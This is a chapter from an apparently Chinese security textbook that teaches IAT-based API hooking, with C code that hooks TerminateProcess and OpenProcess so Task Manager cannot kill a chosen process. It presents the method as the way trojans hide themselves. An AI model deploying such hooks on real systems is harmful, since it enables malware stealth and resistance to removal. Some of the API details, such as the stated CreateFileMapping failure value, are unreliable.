那么 API Hook 技术在黑客领域到底有何用处呢？下面请听我一一道来。前面已经说过，HOOK API 技术可以拦截、控制 API 函数的调用，而在 Windows 平台上运行的程序基本都是通过 API 接口来实现自身功能的。那么我们就可以控制程序的执行流程，改变程序的功能，从而实现隐藏进程、文件等。

现在很多木马、后门都使用了 API HOOK 技术来实现隐藏自身，比如国内非常有名的木马 pcshare。API HOOK 可以根据其 HOOK 环境的不同分为 Ring 3 下的和 Ring 0 下的。

**Ring 3 即在用户模式下的，Ring 0 则是在内核模式下的。**

由于 Ring 0 下的 API Hook 是在内核模式下修改系统执行模块的，比如它钩住了某个函数从而实现了某个进程的隐藏，而 Ring 3 下的工具是一般发现不了的，所以 Ring 0 下的 API Hook 比 Ring 3 下的要强大得多，这也印证了前辈们的一句话：越是底层的技术功能越强大。

但是本书的这一章只讲述 Ring 3 下的 API Hook，这也是为以后学习 Ring 0 下的 API Hook 打基础。

### 5.1.1 HOOK API 的原理

API HOOK 的主要功能前面已经提到了，那么当一个 API 函数被拦截后，我们可以让目标程序执行我们事先准备好的代码。比如我们构造某段代码是过滤此 API 函数传入的参数的，而此 API 函数又是用来获取进程的，那么当此 API 函数被拦截后，我们就可以让它转去执行过滤参数的代码。当发现是获取某个木马进程时，就不再调用原 API 函数，直接返回一个无用的数据，否则再次调用原 API 函数，返回原 API 函数返回的结果，具体过程如图1所示。


从图1中可以看到，HOOK API 之后，执行 API 函数的流程就变了，也就是我们构造的代码替换了原来的 API 函数，最后是否要调用原来的 API 函数全由我们构造的代码决定。在这里决定是否调用的因素是程序要得到的进程是否是我们的木马进程，假如不是木马进程则调用原 API 函数，否则直接返回，这样程序就可以正常得到其它进程，而无法查到木马进程，实现了进程的隐藏。由于拦截 API 后调用的代码是我们自己构造的，所以实现的功能也由我们决定，并不一定要像图1中所示的过滤参数。

##### 5.1.1.1 PE 文件的导入表

HOOK API 其实是对远程进程内存数据的修改，本章就是通过修改导入表中的导入函数地址表来实现 API HOOK 的，而进程内存数据又是文件在内存中以某种规则建立的映像，所以在具体讲解如何实现 API HOOK 前我们必须先来学习下 PE 文件结构。

> **知识加油站**
>
> **什么是 PE 文件？**
>
> PE 的意思就是 Portable Executable（可移植的执行体），它是 Win32 环境自身所带的执行体文件格式。它的一些特性继承自 Unix 的 COFF（common object file format）文件格式。“portable executable”（可移植的执行体）意味着此文件格式是跨 Win32 平台的，即使 Windows 运行在非 Intel 的 CPU 上，任何 Win32 平台的 PE 装载器都能识别和使用该文件格式。当然，移植到不同的 CPU 上 PE 执行体必然得有一些改变。
>
> 所有 Win32 执行体（除了 VxD 和 16 位的 DLL）都使用 PE 文件格式，包括 NT 的内核模式驱动程序（kernel mode drivers）。最常见的 PE 文件包括可执行文件（EXE 文件）、动态链接库文件（DLL 文件）和驱动文件（SYS 文件）。

我们先来看一下 PE 文件整体的结构，如图2所示。


图2

从图2中可以看到，所有 PE 文件（甚至 32 位的 DLL）都必须以一个简单的 DOS MZ header 开始，它指向了一个 IMAGE_DOS_HEADER 结构。有了这个结构，程序在 DOS 下运行也能识别出它是一个有效的执行体。

在此结构中我们只需要关注 e_lfanew 成员，它包含了 PE header 的偏移地址；紧跟在 DOS MZ header 之后的是 DOS stub，它是程序在 DOS 下运行时执行的代码，提示类似“This program requires Windows”的信息；在 DOS stub 后面是 PE header，其对应了一个 IMAGE_NT_HEADERS 结构，此结构中包含了很多关于 PE 文件的信息。

而 PE 文件的真正数据被划分成了许多块，PE 文件里把每一个块称作为一个 Section。（节），而记录这些节信息的正是 PE header 后的 Section Table（节表）。紧跟在 Section Table（节表）后面的是每一节的数据，每节的数据都拥有共同属性，比如代码/数据、读/写等。PE 文件的粗略结构就是这样的，在本章中我们并不需要对每一个部分都有深入的了解，只需要学习本章用到的一些部分就可以了。首先我们来具体了解下 PE header，前面已经说过了，它是一个 IMAGE_NT_HEADERS 结构，此结构的定义具体如下：

```c
typedef struct _IMAGE_NT_HEADERS {
    DWORD Signature;
    IMAGE_FILE_HEADER FileHeader;
    IMAGE_OPTIONAL_HEADER32 OptionalHeader;
} IMAGE_NT_HEADERS32, *PIMAGE_NT_HEADERS32;
```

其中 Signature 字段表示文件的类型。

这里我们主要来了解 OptionalHeader 成员，它指向了一个 IMAGE_OPTIONAL_HEADER32 结构。虽然从此结构的名称来看，这是一个可选映像头部，但是在 PE 文件中，这是一个必须存在的部分。此结构非常庞大，具体如下：

```c
IMAGE_OPTIONAL_HEADER {
    // 省略了一部分
    DWORD LoaderFlags;
    DWORD NumberOfRvaAndSizes;
    IMAGE_DATA_DIRECTORY DataDirectory[IMAGE_NUMBEROF_DIRECTORY_ENTRIES];
} IMAGE_OPTIONAL_HEADER32, *PIMAGE_OPTIONAL_HEADER32;
```

我们只需要了解最后一个字段 DataDirectory，它是一个 IMAGE_DATA_DIRECTORY 结构数组，共有 16 个成员。DataDirectory 中存放了 PE 文件中各重要数据结构的位置和尺寸信息，其中第二个成员就存放了我们要寻找的导入表的位置和尺寸。下面是这一结构的具体定义：

```c
typedef struct _IMAGE_DATA_DIRECTORY {
    DWORD VirtualAddress;
    DWORD Size;
} IMAGE_DATA_DIRECTORY, *PIMAGE_DATA_DIRECTORY;
```

VirtualAddress 字段表示数据结构的相对虚拟地址（RVA），Size 成员表示 VirtualAddress 所指向数据结构的字节数。

> **编程小贴士**
>
> **什么是相对虚拟地址（RVA）？**
>
> RVA 是相对虚拟地址（Relative Virtual Address）的缩写。顾名思义，它是一个“相对”地址，也可以说是一个偏移量。准确地说，RVA 就是当 PE 文件被装载到内存中后，某个数据的位置相对文件头的偏移。
>
> 比如 Windows 装载器将一个 PE 文件装入 00400000h 处，而某个节中的某个数据被装入了 00401000h 处，那么这个数据的 RVA 就是（00401000h－00400000h）=1000h。也就是说我们可以在 DataDirectory 数组的第二个成员中通过 VirtualAddress 字段找到导入表的实际位置。

下面我们就来重点学习导入表的结构，这是 API HOOK 原理的关键部分。大家都知道 API 函数其实就是系统 DLL 文件的“导出函数”，而当被某个程序调用时又叫做此程序的“导入函数”。导入函数并不是程序中的代码函数，调用时仅仅是调用了其他模块的函数。那么这一过程具体是怎样的呢？当程序被装载器装载时，装载器同时会把要用到的 DLL 装载入内存，那么当“导入函数”被调用时又是怎么定位这些 DLL 上的导入函数地址呢？这就要通过“导入表”来完成了，因为其上存储了 API 函数名和函数在内存中的实际地址。

导入表是由一系列的 IMAGE_IMPORT_DESCRIPTOR 结构组成的，结构的数量取决于程序要使用的 DLL 文件数量，每个结构对应一个 DLL 文件。

例如一个 PE 文件从 5 个不同的 DLL 文件中引入了函数，那么就存在 5 个 IMAGE_IMPORT_DESCRIPTOR 结构来描述这些 DLL 文件。在这 5 个 IMAGE_IMPORT_DESCRIPTOR 结构的结尾是一个全为 0 的 IMAGE_IMPORT_DESCRIPTOR 结构，它标志着这些结构的结束。

IMAGE_IMPORT_DESCRIPTOR 结构的定义如下：

```c
typedef struct _IMAGE_IMPORT_DESCRIPTOR {
    union {
        DWORD Characteristics;
        DWORD OriginalFirstThunk;
    };
    DWORD TimeDateStamp;
    DWORD ForwarderChain;
    DWORD Name;
    DWORD FirstThunk;
} IMAGE_IMPORT_DESCRIPTOR;
```

此结构中的 Name 字段包含了一个 RVA 值，它指向 DLL 文件的名称。OriginalFirstThunk 字段指向一个 IMAGE_THUNK_DATA 结构数组，数组中的每个 IMAGE_THUNK_DATA 结构都包含了一个导入函数的信息，数组的最后一个成员是一个为零的 IMAGE_THUNK_DATA 结构。

我们再来看一下 FirstThunk 字段，在磁盘文件中它的含义和 OriginalFirstThunk 字段一样，指向一个相同的 IMAGE_THUNK_DATA 结构数组；但被装载器装入内存后，FirstThunk 字段所指向内容的数据会被替换，具体过程在下面会讲到。

接着我们来看 IMAGE_THUNK_DATA 结构，其定义如下：

```c
typedef struct _IMAGE_THUNK_DATA {
    union {
        DWORD ForwarderString;
        DWORD Function;
        DWORD Ordinal;
        DWORD AddressOfData;
    };
} IMAGE_THUNK_DATA;
```

那么这个结构是如何指定一个导出函数的呢？当此结构（此结构就相当于是一个 DWORD 类型的集合）的最高位为 1 时，表示函数是以序号方式导入的，这时双字的低位就是函数的序号。当双字的最高位是 0 时，表示函数是以函数名方式导入的，此时此结构就指向了一个 IMAGE_IMPORT_BY_NAME 结构，此结构定义如下：

```c
typedef struct _IMAGE_IMPORT_BY_NAME {
    WORD Hint;
    BYTE Name[1];
} IMAGE_IMPORT_BY_NAME;
```

此结构中的 Hint 表示导入函数的序号，Name[1] 指向了具有该导入函数名字的一个以 NULL 结尾的 ASCII 字符串。

> **编程小贴士**
>
> **什么是导入函数的序号？**
>
> 程序导入函数其实就是 DLL 中的导出函数。在 DLL 中除了用函数名标识这些导出函数外，还用唯一的序号标识了每一个导出函数。所以在程序中除了可以用函数名导入这些函数外，还可以用函数序号导入 DLL 中的函数。

读到这里大家可能会觉得导入表很复杂。为了让大家更好地理解导入表，下面我们就用图的形式来展示导入表，请看图 3 所示。


图 3

那么当装载器把 PE 文件装载入内存后，导入表的数据又会怎么变化呢？下面我们就来看一个 PE 文件装载入内存后的导入表结构，如图 4 所示。


图 4

在程序内存中要用到的所有 DLL 中的导出函数入口点地址，以这种形式被排列在一起，这些数据的排列被称为导入地址表（Import Address Table），简称 IAT。通过这种方式，应用程序就可以轻松地通过函数名找到函数入口点地址而调用 API 函数了。

##### 5.1.1.2 定位导入地址表（IAT）

到这里，我们 HOOK API 的思路也该自然产生了：只需要修改 IAT 所对应函数入口点地址为我们构造的函数地址，那么当程序调用此 API 函数时，实际上调用的就是我们构造的函数。

既然我们要修改内存中的 IAT 表，那么首先就必须定位 IAT 表的位置。根据前面讲的 PE 结构，我们可以按图 5 所示的过程来定位。


首先通过 DOS MZ header 所对应的 IMAGE_DOS_HEADER 结构中的 e_lfanew 成员定位到 PE header，再通过 PE header 中的 OptionalHeader 参数所对应的 IMAGE_OPTIONAL_HEADER 结构中的 DataDirectory 结构数组第二个成员中的 VirtualAddress 字段定位到 IMAGE_IMPORT_DESCRIPTOR 结构的起始位置，再通过遍历所有的 IMAGE_IMPORT_DESCRIPTOR 结构得到 DLL 文件名，通过遍历每个结构的 FirstThunk 数组得到每个函数的地址，通过遍历结构的 OriginalFirstThunk 字段所指向的 IMAGE_IMPORT_BY_NAME 结构得到导出函数名。

为了让大家更好地掌握这一过程，我们先编写一个小程序来实现查看 EXE 文件导入函数。

由于本章后续章节是在内存中操作 PE 文件的，对上述一些结构的定位都是通过指针来完成；为了使本实例能跟后续章节更好地结合，本程序通过内存文件映射把一个 EXE 文件映射到内存后，再在内存中对 PE 文件进行操作。

内存文件映射的一般步骤如图 6 所示。


我们先来学习一些相关的 API 函数。首先是 CreateFileMapping 函数，此函数用于创建一个内存映射文件内核对象，函数原型如下：

```c
HANDLE CreateFileMapping(
  HANDLE hFile,
  LPSECURITY_ATTRIBUTES lpAttributes,
  ...
);
```

```c
DWORD flProtect,
DWORD dwMaximumSizeHigh,
DWORD dwMaximumSizeLow,
LPCTSTR lpName
);
```

- hFile 参数指向要映射文件的文件句柄，由函数 CreateFile 返回。  
- lpAttributes 参数指明内存映射文件对象是否可继承。  
- flProtect 参数指定该内存映射文件的保护类型。  
- dwMaximumSizeHigh 和 dwMaximumSizeLow 参数分别指定最大文件尺寸的高 32 位和低 32 位，如果同时设为 0，内存映射文件大小将和磁盘上文件的大小相同。  
- lpName 参数指向一个可选字符串名，用来命名文件映射对象。  
- 如果函数调用成功，返回内存文件映射句柄，否则返回 -1。  

当创建了内存映射文件内核对象之后，下一步就是把文件映射到内存中。从图 6 中可知，这一步由 MapViewOfFile 函数来完成，此函数原型如下：

```c
LPVOID MapViewOfFile(
    HANDLE hFileMappingObject,
    DWORD dwDesiredAccess,
    DWORD dwFileOffsetHigh,
    DWORD dwFileOffsetLow,
    SIZE_T dwNumberOfBytesToMap
);
```

- hFileMappingObject 参数指向内存映射文件的内核对象句柄，由 CreateFileMapping 函数返回。  
- dwDesiredAccess 参数指定映射到内存中数据的保护类型。  
- dwFileOffsetHigh 和 dwFileOffsetLow 参数指定从文件的哪个位置开始映射。  
- dwNumberOfBytesToMap 参数指定要映射入内存的字节数，如果是 0 则表示映射整个文件。  
- 如果函数调用成功则返回内存映射的基地址，否则返回 NULL。  

当文件被映射入内存后，我们接下来就可以在内存中对文件进行操作了。操作完成后当然还是要做一些清理工作。从图 6 中可知，我们必须调用 UnmapViewOfFile 函数撤销内存文件映射，并调用 CloseHandle 关闭内存映射文件句柄和文件句柄。

UnmapViewOfFile 函数的原型如下：

```c
BOOL UnmapViewOfFile(
    LPCVOID lpBaseAddress
);
```

此函数只有一个参数，此参数指向内存映射视图的基地址，由 MapViewOfFile 函数返回。如果此函数执行成功，则返回 TRUE，否则返回 FALSE。

那么现在我们来看看整个映射过程的框架代码：

```c
// 打开文件
HANDLE hFile = CreateFile(argv[1], GENERIC_READ, FILE_SHARE_READ,
    NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
if (hFile == INVALID_HANDLE_VALUE)
{
    printf("CreateFile failed\n");
}
```

```c
// 创建内存映射文件的内核对象
HANDLE hMap = CreateFileMapping(hFile, NULL, PAGE_READONLY, NULL, NULL, NULL);
if (hMap == INVALID_HANDLE_VALUE)
{
    printf("CreateFileMapping Failed\n");
    return 0;
}

// 把文件映射入内存
LPVOID lpBase = MapViewOfFile(hMap, FILE_MAP_READ, 0, 0, 0);
if (lpBase == NULL)
{
    printf("MapViewOfFile Failed\n");
    return 0;
}

// …… 对映射到内存中的文件进行操作

// 撤销映射
UnmapViewOfFile(lpBase);
CloseHandle(hMap);
CloseHandle(hFile);
```

说了这么多，现在终于要编写核心部分代码了：定位到导入表，然后读出导入函数。具体代码如下：

```c
IMAGE_DOS_HEADER *dosHeader;
IMAGE_NT_HEADERS *ntHeader;
IMAGE_IMPORT_BY_NAME *importName;

// lpBase 由 MapViewOfFile 函数返回
dosHeader = (IMAGE_DOS_HEADER*)lpBase;

// 检测是否是有效的 PE 文件
if (dosHeader->e_magic != IMAGE_DOS_SIGNATURE)
{
    printf("This is not a Windows file\n");
    return 0;
}

// 定位到 PE header
ntHeader = (IMAGE_NT_HEADERS*)((BYTE*)lpBase + dosHeader->e_lfanew);
if (ntHeader->Signature != IMAGE_NT_SIGNATURE)
{
    printf("This is not a win32 file\n");
    return 0;
}

// 定位到导入表
IMAGE_IMPORT_DESCRIPTOR *ImportDec = (IMAGE_IMPORT_DESCRIPTOR*)
((BYTE*)lpBase + RVAToOffset(lpBase,
ntHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress));

while (ImportDec->FirstThunk)
{
    // 得到 DLL 文件名
    char *pDllName = (char*)((BYTE*)lpBase + RVAToOffset(lpBase, ImportDec->Name));
    printf("\n\nDLL文件名：%s\n", pDllName);

    // 通过 OriginalFirstThunk 定位到 PIMAGE_THUNK_DATA 结构数组
    PIMAGE_THUNK_DATA pThunk = (PIMAGE_THUNK_DATA)
        ((BYTE*)lpBase + RVAToOffset(lpBase, ImportDec->OriginalFirstThunk));

    while (pThunk->u1.Function)
    {
        // 判断函数是用函数名导入的还是序号导入的
        if (pThunk->u1.Ordinal & IMAGE_ORDINAL_FLAG32)
        {
            // 输出序号
            printf("从此DLL模块导出的函数序号：%0x\n", pThunk->u1.Ordinal & 0xFFFF);
        }
        else
        {
            // 得到 IMAGE_IMPORT_BY_NAME 结构中的函数名
            importName = (IMAGE_IMPORT_BY_NAME*)((BYTE*)lpBase +
                RVAToOffset(lpBase, (DWORD)pThunk->u1.AddressOfData));
            printf("从此DLL模块导出的函数：%s\n", importName->Name);
        }
        pThunk++;
    }
    ImportDec++;
}
```

从上面的代码中可看到还调用了一个我们未知的函数：RVAToOffset。这是一个自定义函数，具体代码在光盘源码中。此函数用来实现 RVA 到磁盘文件偏移的转换。

虽然我们已经通过内存映射文件的方式把磁盘文件映射到了内存中，但是有一点大家必须清楚：内存映射文件只是简单地把文件中的数据写入到了一块内存空间，这块内存空间中的数据结构和原 PE 文件的结构是完全一样的。这与 Windows 装载器装载 PE 文件是完全不同的。简单地说，装载器装载 PE 文件后，PE 文件在内存中的结构与原磁盘中文件的结构是不一样的，而 RVA 是装载器装载 PE 文件之后在内存中的偏移量。所以在内存文件映射中定位数据，必须把 RVA 转换成磁盘文件偏移。

本程序源码在光盘“第五章\ImportFun”下，执行效果如图 7 所示。


图 7

## 5.1.2 实现简单的 API HOOK

通过上一个实例的练习，我想大家对导入表的定位和读取导入表中的数据已经非常熟练。

## 1. 接下来，我们就可以编写一个 API HOOK 程序了。

前面已经说过，要 HOOK 一个 API 函数，只需要修改 IAT 表中相应函数入口点地址为我们构造的函数地址。但是我们构造的函数一定要处于 HOOK 进程的内存空间中，因为一个进程是不能调用另一个进程空间的函数的。要解决这一问题，我们现在掌握的方法只有两种：

- 可以把我们构造的函数写入到目标进程内存空间；
- 把我们构造的函数写在一个 DLL 文件内，利用远程线程技术把这个 DLL 注入到目标进程中。

这里我们选择第二种方法。既然用了 DLL 文件，并且要把 DLL 文件注入到目标进程，那么我们就可以把定位和修改 IAT 表的代码也一起封装在此 DLL 文件中，并且在 DLLMain 函数中调用此代码。那么当此 DLL 被注入到目标进程后，就会运行定位和修改 IAT 表的代码，也就实现了 API HOOK。

HOOK API 的具体过程如图 8 所示，我们可以清晰地看到整个过程。


图 8

首先得到进程模块的基地址，然后定位到 IAT 表，并且遍历 IAT 表中所有函数的入口点地址，把每个地址和要 HOOK 的 API 函数的入口点地址对比。假如相等则改成自己构造的函数地址；不相等，则不做修改。最后只需要再编写一个 EXE 程序把此 DLL 文件注入到目标进程内存空间即可。

下面我们就来实现这样一个小程序，和任务管理器开个玩笑，让任务管理器无法结束进程。通过调试我们可以发现，任务管理器结束进程是通过调用 TerminateProcess 函数来实现的，那么我们就可以通过 HOOK 这个 API 让任务管理器的结束进程功能失效。

我们先来得到 TerminateProcess 函数的入口点地址。由于此函数是 kernel32.dll 中的导出函数，而每个进程都会加载这个 DLL，所以 TerminateProcess 函数的入口点地址可以用如下代码来获取：

```c
PROC OldProc = (PROC)TerminateProcess;
```

接着我们还需要获取进程的基址地址，直接调用如下代码即可：

```c
HMODULE lpBase = GetModuleHandle(NULL);
```

此函数用来获取内存中模块的句柄，此句柄就相当于是模块在内存中的起始地址。此函数只有一个参数，指向模块文件名字字符串的指针，设为 NULL 则获取进程模块的起始地址。

接下去是定位导入表的过程，这一过程在前一小节中就已经实现。由于此程序是在进程内存模块中定位导入表，此进程的文件已经被装载器装入内存，所以不需要把 RVA 转换成磁盘文件偏移了。

定位到导入表之后，只需要遍历 IMAGE_IMPORT_DESCRIPTOR 结构数组中的每个 Name 字段所指向 RVA 上的字符串，比较其是否和“kernel32.dll”字符串相同，相同则遍历此结构中 FirstThunk 字段。

由于要 HOOK 的目标程序已经运行，所以 FirstThunk 字段中的数据已经被替换成了 API 的入口点地址，那么我们只需要比较这里的 API 函数的入口点地址是否和我们要 HOOK 的入口点地址相同。相同则说明已经找到了 IAT 表中我们要 HOOK 的 API 函数的入口点地址了，接下去只需要把它改成我们构造的函数的地址即可。

但是 IAT 表所在的内存地址是只读的，所以直接写入是不会成功的，这就要求我们在修改之前还需要改变内存页保护属性。大家可以调用 VirtualProtect 函数来实现，此函数原型如下：

```c
BOOL WINAPI VirtualProtect(
    LPVOID lpAddress,
    DWORD dwSize,
    DWORD flNewProtect,
    PDWORD lpflOldProtect
);
```

- `lpAddress` 参数指向要修改内存保护属性的内存基地址。
- `dwSize` 参数指明要改变保护属性的字节数。
- `flNewProtect` 参数指明要设置为哪种保护属性，这里传递 `PAGE_READWRITE` 即可。
- `lpflOldProtect` 参数用来接收原先此内存区域的保护属性。
- 如果函数执行成功，则返回 `TRUE`，否则返回 `FALSE`。

这里我把 DLL 文件中定位和修改 IAT 表的代码封装成了一个函数，具体代码如下：

```c
int ApiHook(char *DllName,   // DLL 文件名
            PROC OldFunAddr, // 要 HOOK 的函数地址
            PROC NewFunAddr  // 我们构造的函数地址
)
{
    // 得到进程模块基地址
    HMODULE lpBase = GetModuleHandle(NULL);
    IMAGE_DOS_HEADER *dosHeader;
    IMAGE_NT_HEADERS *ntHeader;
    IMAGE_IMPORT_BY_NAME *ImportName;

    // 定位到 DOS 头
    dosHeader = (IMAGE_DOS_HEADER*)lpBase;
    ...

    // 定位到 PE 头
    ntHeader = (IMAGE_NT_HEADERS32*)((BYTE*)lpBase + dosHeader->e_lfanew);

    // 定位到导入表
    IMAGE_IMPORT_DESCRIPTOR *pImportDesc = (IMAGE_IMPORT_DESCRIPTOR*)
        ((BYTE*)lpBase + ntHeader->OptionalHeader
        .DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress);

    // 循环遍历 IMAGE_IMPORT_DESCRIPTOR 结构数组
    while (pImportDesc->FirstThunk)
    {
        // 得到 DLL 文件名
        char *pszDllName = (char*)((BYTE*)lpBase + pImportDesc->Name);

        // 比较得到的 DLL 文件名是否和要 HOOK 函数所在的 DLL 相同
        if (lstrcmpiA(pszDllName, DllName) == 0)
        {
            break;
        }

        pImportDesc++;
    }

    // 定位到 FirstThunk 参数指向的 IMAGE_THUNK_DATA，此时这个结构已经是函数入口点地址了
    IMAGE_THUNK_DATA *pThunk = (IMAGE_THUNK_DATA*)
        ((BYTE*)lpBase + pImportDesc->FirstThunk);

    // 遍历这部分 IAT 表
    while (pThunk->u1.Function)
    {
        lpAddr = (DWORD*)&(pThunk->u1.Function);

        // 比较函数地址是否相同
        if (*lpAddr == (DWORD)OldFunAddr)
        {
            DWORD dwOldProtect;

            // 修改内存保护属性
            VirtualProtect(lpAddr, sizeof(DWORD),
                PAGE_READWRITE, &dwOldProtect);

            // API 函数的入口点地址改成我们构造的函数的地址
            WriteProcessMemory(GetCurrentProcess(), lpAddr,
                &NewFunAddr, sizeof(DWORD), NULL);
        }

        pThunk++;
    }

    return 0;
}
```

从代码中我们可以看到 `lpAddr` 变量在函数中没有定义，`lpAddr` 是我们定义的一个全局变量，用来存放要 HOOK 的 API 函数的入口点地址在 IAT 表中的内存地址。为了使此 DLL 被卸载后，任务管理器不会崩溃，我们必须在 DLL 卸载时，把修改的函数的入口点地址改回来。否则由于此 DLL 文件已经被卸载，那么我们构造的函数也就不在目标进程的内存空间中了，此时若调用我们 HOOK 的 API，其实调用的还是我们构造的函数，而我们构造的函数已经不在内存中了，这样将会导致任务管理器进程崩溃。

我们可以通过 `DLLMain` 函数的 `ul_reason_for_call` 参数得知 DLL 是否将被卸载，将要卸载则把已经修改的函数的入口点地址改回来，并且还需要在 DLL 文件被加载时调用 `ApiHook` 函数。`DLLMain` 中的具体代码如下：

```cpp
BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        // 得到 TerminateProcess 函数地址
        OldProc = (PROC)TerminateProcess;
        // 定位、修改 IAT 表
        ApiHook("Kernel32.dll", OldProc, (PROC)MyTerminateProcess);
        break;

    case DLL_PROCESS_DETACH:
        // 恢复 IAT 表中 API 函数的入口点地址
        WriteProcessMemory(GetCurrentProcess(), lpAddr, &OldProc,
                           sizeof(DWORD), NULL);
        break;
    }
    return TRUE;
}
```

最后来编写我们构造的函数：MyTerminateProcess。由于此函数是用于替换 TerminateProcess 函数的，所以 MyTerminateProcess 和 TerminateProcess 函数的参数必须相同，并且参数的入栈方式也要相同。

为了让调用 TerminateProcess 函数无法结束进程，我们直接在 MyTerminateProcess 中 return 0 即可；但是为了让大家更好地看到效果，再调用 MessageBox 函数，弹出一个对话框。

MyTerminateProcess 函数的具体代码如下：

```cpp
BOOL __stdcall MyTerminateProcess(HANDLE hProcess, UINT uExitCode)
{
    MessageBox(NULL, "没法结束进程了吧  http://www.nonack.cn/", "API HOOK", 0);
    return 0;
}
```

这样我们的 DLL 文件就实现了（具体代码在光盘“第五章\SimpleHook”下），下面的工作就很简单了，只需要编写一个注入任务管理器进程的应用程序即可（具体源码在光盘“第五章\InjectSimpleHook”下），此程序执行效果如图 9 所示。


## 5.2 用 API HOOK 编写一个进程保护器

经过上一小节学习，我们已经基本掌握了 API HOOK 编程，这一小节我们就运用上一小节的知识来编写一个进程保护器，并且把 API HOOK 的代码进一步完善。

其实上一个小节的最后一个实例，我们已经实现了进程保护，但是那程序过于霸道，让任务管理器无法结束任何进程，这不就是等于逼着用户重装系统吗？所以我们必须只让任务管理器结束不了我们指定的进程，也就是我们要保护的进程。

既然结束进程是通过调用 TerminateProcess 函数来完成的，而 TerminateProcess 函数被 HOOK 后，其参数就传入了我们构造的函数中，那么我们先来研究下 TerminateProcess 函数的参数吧。此函数原型如下：

```c
BOOL TerminateProcess(
    HANDLE hProcess,
    UINT uExitCode
);
```

`hProcess` 参数表示要结束进程的句柄，`uExitCode` 参数表示进程结束时的退出代码。从参数来看我们能利用的也只有 `hProcess` 了。可能很多人都会有这样的想法：当我们的进程保护程序运行后，就得到要保护程序的句柄，然后在我们自己构造的函数中用这个句柄和 `hProcess` 参数比较，假如相同，则说明此次要结束的是要保护的进程，那么函数直接返回，否则调用原 TerminateProcess 函数结束进程。

但是这种方法是不可行的，因为句柄并不是唯一的，它和指针是有差别的。句柄只是系统提供的标识对象的标识符，指针则是指向对象的真实地址。Windows 运用句柄也是为了防止用户直接对对象进行操作，保护系统内核。所以同一个进程，每次调用 OpenProcess 得到其进程句柄都是不一样的，因此上面的方法当然也是错误的。

那么我们怎么通过进程句柄得到进程的其他信息呢？假如能得到进程 ID，这个问题就能解决了。写这一小节时我几乎找遍了用户模式下和进程有关的 API 函数，但是没有一个能实现这个功能。最后还试着调用了 ZwQueryInformationProcess 这个函数，此函数是一个 Native API，它确实可以从进程句柄得到进程 ID，但是由于任务管理器传递给 TerminateProcess 函数的 `hProcess` 参数句柄的权限不够，所以只能作罢。

此路不通，我们只能换一条路走！不知大家是否还记得结束进程的代码，在调用 TerminateProcess 函数前先要调用 OpenProcess 函数打开要结束的进程，那么我们可以 HOOK 这个 API 函数。再来看一下这个 API 函数的参数，其函数原型如下：

```c
HANDLE OpenProcess(
    DWORD dwDesiredAccess,
    BOOL bInheritHandle,
    DWORD dwProcessId // 要打开进程的 ID
);
```

从上面我们可以清楚地看到，`dwProcessId` 参数指定了要打开进程的 ID，那么问题也就迎刃而解了，具体过程如图 10 所示。


通过图 10 可以看到此过程非常简单，这里唯一要强调的是对比“不相同”之后的操作。由于此时对于子系统来说它认为我们构造的函数就是 OpenProcess 函数，但是事实并不是这样。为了让程序调用我们构造的函数也能正常地打开进程，我们必须利用构造的函数的参数调用 OpenProcess 函数，最后让我们构造的函数返回 OpenProcess 函数返回的值。

这样当执行完我们构造的函数后，返回的进程句柄就是要打开进程的真实句柄了。下面来看看构造函数的代码：

```cpp
typedef HANDLE (__stdcall *OPENPROCESS)(DWORD, BOOL, DWORD);

HANDLE __stdcall MyOpenProcess(DWORD dwDesiredAccess, BOOL bInheritHandle, DWORD dwProcessId)
{
    // 寻找要保护进程的 ID
    if (GetProcessId("SetHook.exe") == dwProcessId)
        return 0;

    // 假如不是要保护的进程，则执行 OpenProcess 函数，并返回其返回值
    return ((OPENPROCESS)OldProc)(dwDesiredAccess, bInheritHandle, dwProcessId);
}
```

看了上面代码可能你会觉得奇怪，为什么要 `((OPENPROCESS)OldProc)(dwDesiredAccess, bInheritHandle, dwProcessId);` 这么调用 OpenProcess 函数呢？那是因为当 DLL 被装载入内存后，IAT 表中的 OpenProcess 函数的入口点地址就已经被改成我们构造的函数地址了，而这句代码中的 `OldProc` 变量保存着 OpenProcess 函数的真实地址。

下面再来看一下 GetProcessId 函数，具体代码如下：

```cpp
DWORD GetProcessId(char *ProcessName)
{
    PROCESSENTRY32 pe32;
    pe32.dwSize = sizeof(pe32);

    // 获得系统内所有进程快照
    HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hProcessSnap == INVALID_HANDLE_VALUE)
    {
        return FALSE;
    }

    // 枚举列表中的第一个进程
    BOOL bProcess = Process32First(hProcessSnap, &pe32);
    while (bProcess)
    {
        // 比较得到的进程名和要保护的进程名是否相同
        if (stricmp(pe32.szExeFile, ProcessName) == 0)
        {
            // 相同则返回此进程 ID
            return pe32.th32ProcessID;
        }

        bProcess = Process32Next(hProcessSnap, &pe32);
    }

    CloseHandle(hProcessSnap);
    // 否则返回 0
    return 0;
}
```

此函数的作用是通过列举进程，比较列举的进程名和要保护的进程名是否相同，相同则……返回进程 ID。这样，替换 `OpenProcess` 函数的函数就实现了。完成 HOOK API 的代码在上一小节中已经实现了，所以这里直接调用即可。现在假如你把上面的代码封装到 DLL 文件中，然后把此 DLL 注入到任务管理器进程，你会发现 `SetHook.exe` 进程已经无法结束了。

但是，仅仅让任务管理器结束不了程序保护的进程是不够的。要知道第三方结束进程的工具还是存在的，那么我们应该怎样 HOOK 这些程序呢？当然，选择通过检测这些程序是否运行，运行则把实现 API HOOK 的 DLL 注入相应进程的方法是不聪明的，因为我们不可能知道所有结束进程工具的进程名。所以这样就引出了一个新的问题：如何实现全局 API HOOK！

大家是否还记得第四章中的键盘记录程序？要实现全局 API HOOK，还必须借助消息钩子。在键盘记录程序中，我们就利用了 `WH_GETMESSAGE` 类型钩子，其描述如下：

> 每当调用 `GetMessage` 或 `PeekMessage` 函数时，函数从程序的消息队列中获得一个消息后调用该钩子函数。也就是说，当程序调用 `GetMessage` 或 `PeekMessage` 函数时就会触发钩子回调函数。假如此程序没有加载钩子的 DLL 文件，则系统会负责为程序加载此 DLL 文件，然后执行钩子回调函数。

